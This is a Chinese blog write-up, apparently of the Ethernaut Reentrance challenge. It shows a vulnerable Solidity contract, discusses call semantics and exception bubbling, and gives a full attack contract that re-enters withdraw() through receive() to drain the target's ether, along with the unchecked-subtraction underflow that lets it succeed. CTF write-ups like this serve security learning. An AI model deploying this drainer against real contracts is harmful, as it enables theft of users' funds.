


这次看标题应该就是重入攻击了。

目标是偷走合约的所有钱。

提示是：

- 不可信合约可以在你最不期望的地方执行代码；
- 异常冒泡。

<!--more-->

先自己猜一猜怎么做。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12; // 0.6说明是一个以前合约的通病，现在已经被解决了

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256; // SafeMath，不会溢出。

    mapping(address => uint256) public balances; // 每个账户有钱

	// donate可以给别的地址转账
    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

	// 查某个地址的钱
    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }
	
	// 退款
    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) { // 如果发请求人账户里有足够的钱
            (bool result,) = msg.sender.call{value: _amount}(""); // 就把钱发回去
            
            // 这里有点奇怪？
            // 不管成不成功，都会扣钱
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount; // 还是会下溢！！！因为没有显示调用SafeMath
        }
    }

    receive() external payable {}
}
```

之前我们知道，事务是原子性的，每一个事务要么全部发生，要么全部不发生。

但是，这里退款是用的是call，call是不是会让合约变成异步的？

不对，因为如果是异步的，bool result 就没有意义。


# call

以下是一大段废话：

> 首先，一定是**同步执行**。
>
> call执行过程中，可能出现失败。比如目标合约代码抛出异常或revert，这时候会返回false，但不会触发revert。
>
> 这里的执行call就很危险，因为他执行的代码是其他合约的代码，是不可信的代码。
>
> 执行的过程，报错了，则会让返回值变成false。然鹅，即使返回false，也还是会扣掉账户里的钱，而我也不会收到钱。
>
> 我没收到钱，我账户里的钱变少了.
>
> 我希望的是，我收到了钱，但是balance里没减少。所以应该call其实执行成功了，但是调用他的合约却被迫发生了revert。
>
> 执行call有没有可能直接失败，不返回结果，就回退？x
>
> 有没有可能call调用的函数没有回滚，也返回false？
>
> https://professional-solidity.readthedocs.io/zh-cn/latest/source/06.error.html
>
> 如果异常在子调用发生，那么异常会自动冒泡到顶层（例如：异常会重新抛出），除非他们在 `try/catch` 语句中捕获了错误。 但是如果是在 `send` 和 低级 `call`, `delegatecall` 和 `staticcall` 的调用里发生异常时， 他们会返回 `false` （第一个返回值） 而不是冒泡异常。
>
> 警告注意：根据 EVM 的设计，如果被调用的地址不存在，低级别函数 `call`, `delegatecall` 和 `staticcall` 第一个返回值同样是 `true`。 如果需要，请在调用之前检查账号的存在性。
>
> 函数 assert 和 require 可用于检查条件并在条件不满足时抛出异常。


# 题解

因为每次withdraw，Reentrance执行转账，无论成功与否，都会在balance里扣除钱。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

interface Reentrance {
    function donate(address _to) external payable;
    function withdraw(uint256 _amount) external;
}

contract Attack {
    Reentrance public target;

    constructor(address _target) public {
        target = Reentrance(_target);
    }

    // Fallback function, will be called when the contract receives ether
    receive() external payable {
        uint256 balance = address(target).balance;
        if (balance > 0) {
            target.withdraw(balance);  // 重入调用
        }
    }

    // 发起攻击的函数
    function attack() external payable {
        require(msg.value > 0, "Send some ether to attack");
        target.donate{value: msg.value}(address(this));  // 向目标合约捐款
        target.withdraw(msg.value);  // 开始提款
    }

    // 用于撤回攻击所得的以太币
    function withdraw() external {
        msg.sender.transfer(address(this).balance);
    }
}
```


卡了很久……但是我好像想复杂了。

重入攻击通过receive再次调用withdraw很早就想到了，我明白中间有一个时刻，合约拿到了所有的钱，但是我以为最终会被：

```solidity
balances[msg.sender] -= _amount; 
```

报错发生回退，最终导致所有调用都不成功。

但是！！！！！SafeMath必须要显示调用 .add .sub，才是用了SafeMath！！！

这里其实还发生了下溢！！！！！！！

看了一下确实！！！！





